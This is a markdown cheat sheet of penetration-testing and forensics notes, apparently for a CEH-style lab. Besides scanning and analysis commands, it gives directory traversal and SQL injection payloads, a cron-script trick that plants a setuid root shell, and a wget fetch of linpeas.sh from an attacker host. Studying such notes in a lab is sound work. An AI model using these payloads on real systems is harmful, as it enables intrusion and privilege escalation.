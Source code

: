 # MISC Notes

- nmap
  ```bash
  nmap -sC -sV -O -A -p- --min-rate=1000 <TARGET-IP>      #aggressive 
  nmap -T4 -F --min-rate=1000 <TARGET-IP>      #faster
  nmap -sn 10.10.55.0/24 --script=mac-lookup    #mac look 
  nmap -p 143,993 --script banner 192.168.44.0/24    #banner check 
  nmap --script ldap-rootdse,smb-os-discovery -Pn 10.10.55.0/24    #DC
  ```
- `ldapsearch -x -h <DC-IP> -s base namingContexts`
- base64 decoder command: `echo "base64_string" | base64 -d`
- file readers
  ```bash
  stat <file>    ,    file <file>        #basic
  readelf -h <file>        #elf
  ldd suspicious.elf        #Check Linked Libraries
  strings suspicious.elf | less            #Extract Strings
  chkrootkit <file>        #malicious signature check
  rkhunter --check --rwo      #malicious signature check
  sha384sum <file>      #SHA check
  ```

- directory traversal payloads in URL parameters, for example:  
  - If there's a page parameter: `?page=../../../foldername/prod/`
  - If there's a file parameter: `?file=../../../foldername/prod/file.txt`
- SQL injection
  - checking that
      `sqlmap -u "http://<url>/login.php" --data="username=<user>&password=<pass>" --batch --dbs`
  - for getting a file
      `UNION SELECT LOAD_FILE('C:/wamp64/www/DVWA/SecureWeb/prod/file.txt')`
- Finding hidden files `gobuster dir -u http://training.cehorg.com -w /usr/share/wordlists/dirb/common.txt -x txt,php,html`

- Way to get a page `curl http://<url>?page_id=44`  
`curl "http://<url>?page_id=32' OR '1'='1"` #If page content changes, it's vulnerable to SQLi.  
- Dump: `wget -qO- "http://<url>?page_id=6" | grep -i "text  "`

- Malware find:
```ps
ps> dumpbin /headers malware.exe | findstr /i "text"

ps> diec "C:\Users\Admin\Documents\Ghostware.exe"
```
- Use steghide for steganography extraction and dumpbin for EXE/DLL analysis.
- SHA calculation `sha1sum extracted_image.jpg` `certutil -hashfile C:\Users\path\extracted_image.jpg SHA1`
- Traffic packets:
```wireshark
#SYN Flood (DDoS)
tcp.flags.syn == 1 && tcp.flags.ack == 0 && ip.dst == <ip>

#OS find
dhcp.option.hostname contains "Windows"
http.user_agent contains "Windows"
```
- RAT related ports
`nmap -p 4444,8080,3389,5900 10.10.55.0/24`  
  4444	Metasploit Meterpreter  
  8080	njRAT, DarkComet, QuasarRAT  
  3389	RDP (May be used as a RAT)  
  5900	VNC (Remote Desktop RATs)  
  2222	Poison Ivy  

- Linux: Check Cron Jobs (Persistence)
```bash
crontab -l
ls -la /etc/cron*
```

- Key Encryption of file:
```bash
7z e pixelpioneer.txt -p"password"

openssl enc -d -aes-256-cbc -in pixelpioneer.txt -out decrypted.txt -k password
cat decrypted.txt

gpg --decrypt --passphrase "password" pixelpioneer.txt
```
- Privalege
  linPEAS - https://github.com/peass-ng/PEASS-ng/releases
  GTFO - https://gtfobins.github.io  
  ```bash
  sudo -l
  sudo -u user2 /bin/bash

  /root/.ssh        #check this file access
  ssh root@<ip> -i filewithopensshtext
  /var/www/html/files>       #webserver's check

  #cronjob file edit if running via root
  echo '#!/bin/bash' > /usr/local/bin/backup.sh
  echo 'cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash' >> /usr/local/bin/backup.sh
  chmod +x /usr/local/bin/backup.sh
  /tmp/rootbash -p
  ```
- File transfer between
  ```bash
  #in source working folder
  python3 -m http.server 8080

  #in destination machine folder
  wget http://<ATTACKER-IP>:8080/linpeas.sh
  ```

